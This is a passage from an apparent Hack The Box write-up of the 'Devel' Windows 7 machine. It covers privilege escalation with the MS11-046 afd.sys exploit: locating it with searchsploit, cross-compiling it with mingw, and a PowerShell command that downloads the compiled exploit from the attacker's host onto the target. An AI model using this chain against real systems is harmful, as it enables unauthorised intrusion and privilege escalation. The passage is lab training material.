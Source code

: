 ## Path 2: MS11-046 Exploit

Since this machine is running Windows 7 Build 7600 without any hot fixes it should be vulnerable to MS11-046

Searchsploit MS11-046

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ searchsploit ms11-046
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11- | windows_x86/local/40564.c
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046)           | windows/dos/18755.c

```

Download the first exploit 40564 to the current directory

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
    Codes: CVE-2011-1249, MS11-046
 Verified: True
File Type: C source, ASCII text
Copied to: /home/vagrant/Documents/HTB/windows/devel/40564.c

```

Install mingw-w64 to compile the exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ sudo apt-get install mingw-w64
```

Compile the exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload and execute the exploit

```bash
C:\Windows\Temp>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.9:8000/40
564.exe', '40564.exe')"
```
